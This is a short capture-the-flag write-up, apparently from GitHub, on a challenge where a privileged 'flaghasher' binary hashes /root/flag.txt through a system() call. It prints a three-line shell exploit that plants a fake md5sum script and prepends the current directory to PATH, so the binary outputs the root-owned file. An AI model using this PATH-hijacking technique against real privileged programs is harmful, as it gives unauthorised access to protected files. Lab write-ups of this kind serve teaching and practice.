 Description:  
Here is a binary that has enough privilege to read the content of the flag file but will only let you know its hash. If only it could just give you the actual content!  

After follow the description i successfully access to server. Use `ls` command to check if there is `flaghasher` file.  
Tried to run it with `./flaghasher` and it's return to the md5 hash of `./root/flag.txt`.  
I use some hash decoder tools but it not working.  
Then i download the binary file, using IDA to open and read the code.  
<img width="569" height="112" alt="image" src="https://github.com/user-attachments/assets/8e36d110-714d-49be-a167-66d29cf2f5f6" />  
As you can see, there is a `system()` call, and the command is `"/bin/bash -c 'md5sum /root/flag.txt'"`.  
So everytime you run the binary file, i will run this command and print out `md5sum` of the path.  
So ... what if : we can create a fake `md5sum` file and trick and system to execute it instead of the real one ?  
There is my script :  
```vim
$ echo -e '#!/bin/bash\ncat "$@"' > md5sum
$ chmod +x md5sum
$ PATH=:$PATH ./flaghasher
```
So instead of calculate the md5sum of /root/flag.txt, the system will `cat` it instead.  
Peace!

